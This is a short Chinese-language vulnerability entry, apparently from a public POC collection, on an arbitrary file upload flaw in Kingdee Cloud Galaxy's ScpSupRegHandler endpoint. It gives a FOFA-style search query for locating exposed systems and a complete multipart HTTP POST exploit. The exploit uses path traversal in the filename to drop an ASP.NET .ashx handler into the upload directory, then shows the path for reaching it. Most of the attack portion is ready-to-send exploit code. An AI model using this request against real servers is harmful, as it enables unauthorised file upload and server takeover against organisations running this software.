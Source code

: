 # 金蝶OA 云星空 ScpSupRegHandler 任意文件上传漏洞

# 金蝶OA 云星空 ScpSupRegHandler 任意文件上传漏洞

## 漏洞描述

金蝶OA 云星空 ScpSupRegHandler 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件获取服务器权限

## 漏洞影响

金蝶OA 云星空

## 网络测绘

```
app="金蝶云星空-管理中心"
```

## 漏洞复现

登陆页面

![image-20231116140635693](images/image-20231116140635693.png)

poc

```
POST /k3cloud/SRM/ScpSupRegHandler HTTP/1.1
Host: 
Accept-Encoding: identity
Content-Length: 973
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=2ac719f8e29343df94aa4ab49e456061

--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="dbId_v"

.
--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="FID"

2022
--2ac719f8e29343df94aa4ab49e456061
Content-Disposition: form-data; name="FAtt"; filename="../../../../uploadfiles/test.ashx."
Content-Type: text/plain

<%@ WebHandler Language="C#" Class="TestHandler" %>
        using System;
        using System.Web;
        public class TestHandler : IHttpHandler {
            public void
            ProcessRequest (HttpContext context) {
                context.Response.ContentType= "text/plain";
                context.Response.Write("Test");
            }
            public bool IsReusable {
                get {return false; }
            }
        }
--2ac719f8e29343df94aa4ab49e456061--
```

![image-20231116140545666](images/image-20231116140545666.png)

```
/K3Cloud/uploadfiles/Test.ashx
```


